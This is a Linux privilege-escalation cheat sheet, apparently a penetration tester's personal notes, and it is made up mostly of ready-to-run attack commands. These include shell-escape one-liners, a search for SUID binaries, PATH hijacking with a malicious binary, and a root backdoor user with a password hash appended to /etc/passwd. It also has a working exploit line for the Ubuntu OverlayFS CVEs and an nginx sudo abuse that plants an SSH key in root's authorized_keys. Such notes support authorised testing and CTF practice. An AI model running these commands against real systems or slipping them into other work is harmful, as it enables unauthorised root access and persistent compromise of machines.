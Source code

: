 Add user to SUDOers group:

```shell
nano /etc/sudoers
```

```
root ALL=(ALL) ALL
$USER ALL=(ALL) ALL
```
---

List if use can execute a cmd as root

```shell
sudo -l
```

```shell
find / -user root -perm -4000 -exec ls -ldb {} \;
```

---
Shell SUDO / escape:

---

[https://gtfobins.github.io/gtfobins/vi/#sudo](https://gtfobins.github.io/gtfobins/vi/#sudo)

---

Using python:

```shell
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

Using echo:

```shell
echo 'os.system('/bin/bash')'
```

Using sh:

```shell
/bin/sh -I
```

Using bash:

```shell
/bin/bash -I
```

```shell
/bin/bash -p
```

Using perl:

```shell
perl -e 'exec "/bin/sh";'
```

From within VI

```
:!bash
```

From within VIM

```
:export shell=/bin/bash
```

```
:shell
```

Shell escape sequences:

[https://atom.hackstreetboys.ph/linux-privilege-escalation-shell-escape-sequences/](https://atom.hackstreetboys.ph/linux-privilege-escalation-shell-escape-sequences/)

Abuse non-absolute path in scripts/bins run as root:

```bash
#create the script and rename to match the file you wish to impersonate
echo "#\!/bin/bash\nbash" > /dev/shm/malicious_bin
chmod +x /dev/shm/malicious_bin
#make sure it searches /dev/shm first for the file
export PATH=/dev/shm:$PATH
```

Proper path for GCC and other utilities:

```shell
export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
```

Delete last line from a file in place:

```shell
sed -i '$d' <file>
```

```shell
echo "echo \"exploited:\\\$1\\\$somesalt\\\$zl7ghhyb/ddzu8Jlo.q4b1:0:0::/root/bin/bash\" >> /etc/passwd" >> VULN_SH
```

Python with getcap:

```shell
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Add superuser to /etc/passwd with username exploited and pass t00r

```code
exploited:$1$somesalt$zl7ghhyb/ddzu8Jlo.q4b1:0:0::/root/bin/bash
```

Escape sudo script directory:

```shell
sudo /usr/bin /path/with/rights/../../../home/USER/FILE
```

Escalate priv with getcap

```shell
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629):

```bash
#ubuntu overlayfs priv esc from reddit
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash -i")'
```

Abuse NGINX sudo for privesc:
----
create the following /tmp/pwn.conf on box:
```conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
        server {
                listen 1337;
                root /;
                autoindex on;
                dav_methods PUT;
     }
}
```
```bash
sudo nginx -c /tmp/pwn.conf
ss -tunlp
#make sure port 1337 is opened
ssh-keygen
curl -X PUT localhost:1337/root/.ssh/authorized_keys -d "$(cat id_rsa.pub)"
```


